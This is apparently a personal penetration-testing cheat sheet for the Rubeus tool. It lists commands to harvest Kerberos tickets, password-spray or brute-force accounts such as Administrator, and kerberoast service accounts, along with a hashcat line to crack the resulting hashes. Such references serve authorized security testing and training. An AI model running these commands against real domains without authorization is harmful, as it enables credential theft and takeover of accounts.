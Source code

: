 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

### harvest
- Gathers TGT flowing from a KDC every x interval.
```powershell
.\Rubeus.exe harvest /interval:30
```
### brute
- Used to bruteforce or password spray kerberos credentials.
```powershell
# password spray
.\Rubeus.exe brute [OPTIONS] /noticket
# [OPTIONS]
/password:Passw0rd!
/passwords:password.txt
/username:Administrator
/usernames:username.txt
```
### kerberoast
- Perform kerberoasting attack
```powershell
.\Rubeus.exe kerberoast /nowrap

# Hash can be cracked with
hashcat -m 13100 hash.txt pass.txt
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
